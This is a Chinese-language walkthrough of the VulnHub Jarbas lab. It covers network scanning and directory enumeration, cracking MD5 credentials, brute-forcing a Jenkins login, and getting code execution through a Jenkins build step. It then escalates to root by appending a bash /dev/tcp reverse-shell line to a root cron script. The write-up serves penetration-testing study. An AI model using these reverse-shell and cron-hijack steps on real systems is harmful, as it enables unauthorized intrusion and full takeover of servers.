# 靶场考察点

## 1.Jenkis平台的漏洞利用

Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件项目可以进行持续集成


## 2.contrab提权

在LINUX系统中的`/etc/contrab`文件存放着系统定时任务, 若该文件的某些定时任务指定由root用户执行, 那么这将是一个可提权点 


## 3.登录爆破

使用burpsuite对网站后台登录进行爆破


# 靶场搭建

Jarbas靶场下载地址: https://download.vulnhub.com/jarbas/Jarbas.zip


# 渗透步骤

## 信息收集

### 1.确定靶机ip

扫描C段ip的存活主机: `nmap -sn 192.168.47.0/24`, 确定目标主机的IP为192.168.47.156

	


### 2.端口扫描

分别使用tcp和udp扫描目标主机的开放端口, 显示开放的端口有`22`、`80`、`3306`、`8080`

```
nmap -p- 192.168.47.156
nmap -sU -V -p22,80,3306,8080 192.168.47.156
```

		

	


nmap使用web漏扫脚本进行扫描, 扫描结果并不太理想, 显示在8080端口处有一个robots.txt

```
nmap --script=vuln -p21,22,80,3306 192.168.47.156
```

	


访问robots.txt, 页面信息为"我们不想机器人去点击'建立'连接", 作者不想"build"被点击, 那么这个"build"后续很可能会出现且可利用

	


访问http://192.168.47.156:8080, 显示登录页面, 可用于后续的爆破

	


### 3.目录爆破

对http://192.168.47.156:80进行目录爆破, 爆出access.html

```
python3 dirsearch.py -u http://192.168.47.156 -x 403
```




访问http://192.168.47.156:80/access.html, 页面显示三段未加密字符对应MD5加密字符串,依照以往的经验这可能是用户的账号及密码

经过在线网站的破解后, 密码字符串分别为`italia`、`vipsu`、`mariana`, 最终账号对应密码如下所示:

- tiago- > italia
- trindade -> vipus
- eder -> mariana

				

	


使用上述的账号密码尝试登录, 全部登录失败, 后续尝试使用burpsuite打乱顺序进行爆破

	


## Web渗透

### 1.登录爆破

使用burpsuite进行爆破, 攻击类型选择`Clusterbomb`, 爆破参数分别是`j_username`和`j_password`, 爆破的字典填写上述用户的账号密码

	

		

	


从响应长度可判断出`eder/mariana`或`eder/vipsu`都可能为正确的账号密码, 经过登录尝试后, 确定后者才是正确的账号密码

由后台页面可知, 这是一个Jenkins平台, 这就要考察我们对该平台漏洞利用的了解

	




### 2.Jenkins远程命令执行反弹shell

在Jenkins平台新建一个任务	


在构建栏处发现一处能够远程命令执行的地方, 选择`Execute shell`, 随后输入`/bin/bash -i >& /dev/tcp/192.168.47.155/4444 0>&1`, 该命令的作用是反弹目标主机的shell, 然后点击应用加保存

			

	


在kali监听本机的4444端口来接收反弹Shell: `nc -lvp 4444`, 随后点击`立即构建`触发上述设置的远程命令,后续在kali收到反弹的shell

> 通常以这种方式获取的反弹shell, 我们称之为非交互式shell
>
> - 交互式shell: shell等待你的输入并且执行你提交的命令, 这种模式也是大多数用户非常熟悉的
> - 非交互式shell: shell不与你进行交互，而是读取存放在文件中的命令,并且执行它们, 当它读到文件的结尾，shell也就终止了

	

		


## 系统提权

### 1.收集当前用户信息

查看当前用户: `whoami`, 显示当前用户为jenkins

			


查看当前用户权限: sudo -l, 结果显示没有任何权限



​	

### 2.crontab提权

查看系统定时任务: `cat /etc/crontab`, 发现有一个任务使用root用户执行shell脚本

查看shell脚本的内容: `cat /etc/script/CleaningScript.sh`, 发现这是一个删除日志的脚本



	


将反弹Shell的命令写入脚本文件, 这样一来就能获取root权限的反弹shell了

```
echo "/bin/bash -i >& /dev/tcp/192.168.47.155/4444 0>&1" >> /etc/script/CleaningScript.sh
```




重新建立nc监听, 过5分钟后就能接收到反弹的root权限shell

	


获取flag.txt

		


